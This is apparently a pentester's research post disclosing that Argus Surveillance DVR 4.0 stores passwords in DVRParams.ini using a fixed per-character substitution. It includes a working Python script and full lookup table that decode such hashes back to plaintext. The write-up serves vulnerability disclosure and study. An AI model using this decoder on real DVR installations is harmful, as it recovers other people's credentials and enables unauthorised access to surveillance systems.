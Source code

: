 ```yaml
---
title: Cracking Argus Surveillance Passwords
tags: [Research, Exploit-Development]
style: fill
color: dark
comments: true
description: How to crack argus surveillance password hases
---
```


## Introduction

During a recent pentest I came across `Argus Surveillance DVR 4.0` which was using weak encryption for passwords.

## Discovery

`Argus Surveillance DVR 4.0` was storing the configuration in a file called `DVRParams.ini` located in `C:\ProgramData\PY_Software\Argus Surveillance DVR`

![location](https://i.imgur.com/KYcjQOM.png)

I've created a test account with username `test` and password `test`

![users](https://i.imgur.com/cbwtBsN.png)

The configuration was storing the user's password as a hash

![hash](https://i.imgur.com/d1PnFsd.png)

Something interesting caught my eye the first four characters and the last four characters in the hash were same `E03B` since my password was test where the first character and the last character are the same `t`

This confirms that `t=E03B`, I assumed that each character in password has 4 characters in the hash

![test](https://i.imgur.com/cZhNqwc.png)

Interesting let's change the password to `1234567890` (10 Characters)

![change_pass](https://i.imgur.com/trhdvQE.png)

Here's the new password hash in `DVRParams.ini`

![new_pass](https://i.imgur.com/NM50Tbq.png)

My assumption was correct since the password hash was exactly 40 characters long (10 * 4)

Similarly I changed the password to `abc...xyz` and `ABC...XYZ` and noted down the values for each character

Based on the above findings, I've written a simple script to decrypt the password hash

```python
characters = {
'ECB4':'1','B4A1':'2','F539':'3','53D1':'4','894E':'5',
'E155':'6','F446':'7','C48C':'8','8797':'9','BD8F':'0',
'C9F9':'A','60CA':'B','E1B0':'C','FE36':'D','E759':'E',
'E9FA':'F','39CE':'G','B434':'H','5E53':'I','4198':'J',
'8B90':'K','7666':'L','D08F':'M','97C0':'N','D869':'O',
'7357':'P','E24A':'Q','6888':'R','4AC3':'S','BE3D':'T',
'8AC5':'U','6FE0':'V','6069':'W','9AD0':'X','D8E1':'Y','C9C4':'Z',
'F641':'a','6C6A':'b','D9BD':'c','418D':'d','B740':'e',
'E1D0':'f','3CD9':'g','956B':'h','C875':'i','696C':'j',
'906B':'k','3F7E':'l','4D7B':'m','EB60':'n','8998':'o',
'7196':'p','B657':'q','CA79':'r','9083':'s','E03B':'t',
'AAFE':'u','F787':'v','C165':'w','A935':'x','B734':'y','E4BC':'z'}

pass_hash = "418DB740F641E03B956BE1D03F7EF6419083956BECB453D1ECB4ECB4"
if (len(pass_hash)%4) != 0:
	print("[!] Error, check your password hash")
	exit()
split = []
n = 4
for index in range(0, len(pass_hash), n):
	split.append(pass_hash[index : index + n])

for key in split:
	if key in characters.keys():
		print("[+] " + key + ":" + characters[key])
	else:
		print("[-] " + key + ":Unknown")
```

Let's give it a spin!

![spin](https://i.imgur.com/9xcfb8S.png)

*Note:* replace the value of `pass_hash` in the script with the password hash you obtained from `DVRParams.ini`

